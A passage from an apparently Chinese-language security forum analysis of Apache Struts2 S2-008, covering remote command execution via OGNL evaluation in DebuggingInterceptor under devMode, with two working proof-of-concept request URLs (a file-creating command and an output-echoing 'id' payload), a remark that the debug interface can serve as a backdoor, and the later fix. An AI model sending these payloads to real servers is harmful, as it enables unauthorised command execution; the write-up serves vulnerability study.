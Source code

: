 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eccf33b12f4a63d4aef63b595f59078bbac78e38.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eccf33b12f4a63d4aef63b595f59078bbac78e38.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-40f8dcab400a4b4797bc0db5036a1a178cf861bb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-40f8dcab400a4b4797bc0db5036a1a178cf861bb.png)

### vuln-2：Remote command execution in DebuggingInterceptor

该漏洞的前提条件是需要应用开启`devMode`模式。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ca2c7ec2555a841fce272b538e3eb12ec6024672.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ca2c7ec2555a841fce272b538e3eb12ec6024672.png)

正如[vulhub](https://github.com/vulhub/vulhub/blob/master/struts2/s2-008/README.zh-cn.md)上面提到的一样，该漏洞虽然较为鸡肋，但也可用作后门：

> 在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

漏洞原理比较简单，因为代码显而易见，在`DebuggingInterceptor#intercept()`中对入参进行了OGNL表达式计算，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0dea8815e6537002811940e54ed03d9ce65340b7.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0dea8815e6537002811940e54ed03d9ce65340b7.png)

可简单执行命令的PoC如下：

```php
/devmode.action?debug=command
&amp;expression=(%23_memberAccess.allowStaticMethodAccess=true,@java.lang.Runtime@getRuntime().exec('touch%20/tmp/success2'))
```

### vuln-2：可回显PoC

因为`DebuggingInterceptor`会把表达式的计算结果返回，所以这里就没有必要获取`response`对象了：

```php
/devmode.action?debug=command
&amp;expression=(%23_memberAccess.allowStaticMethodAccess=true,%23ret=@java.lang.Runtime@getRuntime().exec('id'),%23br=new%20java.io.BufferedReader(new%20java.io.InputStreamReader(%23ret.getInputStream())),%23res=new%20char[20000],%23br.read(%23res),new%20java.lang.String(%23res))
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ec5c170e9ebaa33d81a50ddf3137a2e7a79d3394.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ec5c170e9ebaa33d81a50ddf3137a2e7a79d3394.png)

漏洞修复
----

后续的版本中，并没有对拦截器`DebuggingInterceptor`中的代码进行修复，因为就该调试功能本身而言，并不是漏洞。所以后续的修复主要是针对`SecurityMemberAccess`的代码进行改进，增强安全性。

S2-009
------
